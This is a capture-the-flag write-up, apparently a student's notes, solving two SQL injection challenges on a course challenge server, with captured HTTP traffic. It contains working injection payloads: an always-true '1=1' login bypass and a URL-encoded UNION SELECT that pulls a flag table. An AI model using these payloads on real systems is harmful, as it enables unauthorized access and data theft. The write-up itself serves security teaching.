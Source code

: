 ```yaml
---
tags:
  - offsec
---
```

_by Vaughn Valle_
### SQL-1 (Input Sanitization)
When visiting the given URL in the browser, we're greeted with this.
![[Pasted image 20241203172510.png]]

![[Pasted image 20241203172527.png]]

If we input `user: test, pass: test`, we get a failed login message
 ![[Pasted image 20241203172702.png]]

The first thing to check if a page sanitizes its inputs is to do the classic `always-true` payload. 

Here I'm using `1=1`, since this is always true
![[Pasted image 20241203172539.png]]
Logging in gives us the flag.

### SQL-3 (Manual Injection)
When visiting the URL, we get this page
![[Pasted image 20241203174240.png]]

Interestingly, this is the only challenge that has registration enabled. Let's try it out
![[Pasted image 20241203174326.png]]
Logging in, we see
![[Pasted image 20241203174352.png]]

I want to analyze the requests being made during registration and login. I'll use Burp Suite for this.

![[Pasted image 20241203174731.png]]

Here are the POST request and response for `/register`
```http
GET /register HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:1506
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:1506/?
Accept-Encoding: gzip, deflate, br
Cookie: CHALBROKER_USER_ID=vqv9731
Connection: keep-alive


```

```http
HTTP/1.1 200 OK
Server: gunicorn
Date: Tue, 03 Dec 2024 20:29:52 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 1202

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Register</title>
    <link rel="stylesheet" href="/static/styles.css">
</head>

<body>
    <div class="container">
        <h1>Register</h1>
        <form method="post" action="/register">
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" required>
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <input type="password" id="password" name="password" required>
            </div>
            <div class="form-group">
                <label for="description">Description:</label>
                <input type="text" id="description" name="description" required>
            </div>
            <div class="form-group">
                <label for="hobby">Hobby:</label>
                <input type="text" id="hobby" name="hobby" required>
            </div>
            <button type="submit" class="btn">Register</button>
        </form>
    </div>
</body>

</html>
```

And here is the POST request and response for `/login`
```http
POST /login HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:1506
Content-Length: 31
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://offsec-chalbroker.osiris.cyber.nyu.edu:1506
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:1506/login
Accept-Encoding: gzip, deflate, br
Cookie: CHALBROKER_USER_ID=vqv9731
Connection: keep-alive

username=vaughn&password=vaughn
```

```http
HTTP/1.1 200 OK
Server: gunicorn
Date: Tue, 03 Dec 2024 20:30:12 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 509
Vary: Cookie
Set-Cookie: session=eyJ1c2VybmFtZSI6InZhdWdobiJ9.Z09qVA.M3jTCsHmFCL0sK3lp-VuITa3w74; HttpOnly; Path=/

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Profile</title>
    <link rel="stylesheet" href="/static/styles.css">
</head>

<body>
    <div class="container">
        <!-- <h1>Profile</h1> -->
        <h1>Welcome, vaughn</h1>
        <p><strong>Description:</strong> vaughn</p>
        <p><strong>Hobby:</strong> vaughn</p>
        <a href="/logout" class="btn">Logout</a>
    </div>
</body>

</html>
```

From the login response, we can see that our inputs get rendered on to the page
![[Pasted image 20241203174833.png]]

Maybe if we can exploit `/login` and use it to display the flag instead? The challenge description says that there exists a `flag` table on the SQL database. Hence our necessary query would merely be
```sql
SELECT flag FROM flag
```

We can append this to the username login page via padding the other fields required from registration page.
```sql
'UNION SELECT 1,flag,3,3,7 FROM flag--
```

Hence our POST request will look like
```http
...
...
username='UNION%20SELECT%201%2cflag%2c3%2c3%2c7%20FROM%20flag--&password=vaughn
```
which is the URL encoded string of the command above
![[Pasted image 20241203175240.png]]

Sending this gives us the flag
![[Pasted image 20241203175309.png]]